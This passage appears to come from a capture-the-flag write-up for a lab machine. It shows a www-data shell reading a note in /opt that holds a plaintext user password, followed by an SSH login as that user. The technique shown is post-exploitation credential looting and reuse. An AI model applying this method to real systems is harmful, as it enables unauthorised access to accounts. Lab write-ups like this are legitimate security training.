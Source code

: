 ```bash
www-data@internal:/tmp$cd /opt
cd /opt
www-data@internal:/opt$ls -la
ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
www-data@internal:/opt$cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
www-data@internal:/opt$ 
```

## Login SSH

- Logging in as the aubreanna user via SSH :

```bash
$ssh aubreanna@10.10.192.249                                                                                       ✔  06:08:41  
The authenticity of host '10.10.192.249 (10.10.192.249)' can't be established.
ED25519 key fingerprint is SHA256:seRYczfyDrkweytt6CJT/aBCJZMIcvlYYrTgoGxeHs4.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:40: [hashed name]
    ~/.ssh/known_hosts:43: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.192.249' (ED25519) to the list of known hosts.
aubreanna@10.10.192.249's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan  7 11:09:10 UTC 2023

  System load:  0.08              Processes:              115
  Usage of /:   63.9% of 8.79GB   Users logged in:        0
  Memory usage: 38%               IP address for eth0:    10.10.192.249
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.
0 packages can be updated.
0 updates are security updates.


Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56

aubreanna@internal:~$
```
